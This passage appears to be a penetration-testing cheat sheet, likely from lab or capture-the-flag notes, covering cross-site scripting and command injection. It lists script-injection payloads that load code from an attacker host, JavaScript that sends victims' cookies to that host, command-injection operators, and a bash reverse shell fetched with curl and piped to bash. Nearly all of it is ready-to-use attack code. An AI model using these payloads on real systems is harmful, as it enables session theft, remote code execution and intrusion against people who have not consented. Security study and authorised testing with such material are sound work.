 ```html
<script src=http://OUR_IP/username></script>

'><script src=http://OUR_IP/username></script>

"><script src=http://OUR_IP/username></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'http://10.10.14.17\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>

<script>$.getScript("http://OUR_IP/username")</script>
```
4. If we receive something back, we can host a JS file to execute to grab their cookie as `script.js`:
```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;

new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```
5. Now change your payload to grab this file from our listener, and we should get their cookie:
```html
<script src=http://OUR_IP/script.js></script>
```



## Command Injection
**Injection Operators:**
```shell 
1 ; whoami
1 & whoami & 
1 && whoami 
1 | whoami
1 || whoami || #Only executes second command if first one returns an error
1 `whoami` #Unix-based systems
1 $(whoami) #Unix-based systems
```
>**NOTE:** Test for both spaced and unspaced commands!!!!
### Inputs
We can test on any data that is being sent to a server by (ex: productIDs, file uploads, search function, URL, etc.):
1. Starting a Python server: `python -m http.server 80`
2. Sending command to our python server: `curl http://10.10.14.17:80`
	- If we get a response, we can continue to exploit
#### RCE (Remote Shell)
1. Create a file called `rev.sh`:
```shell
#!/bin/bash
/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.14.17/4561 0>&1'
```
2. Start Python server again
3. Send `curl` request through command injection: `curl http://10.10.14.17:80/rev.sh|bash`
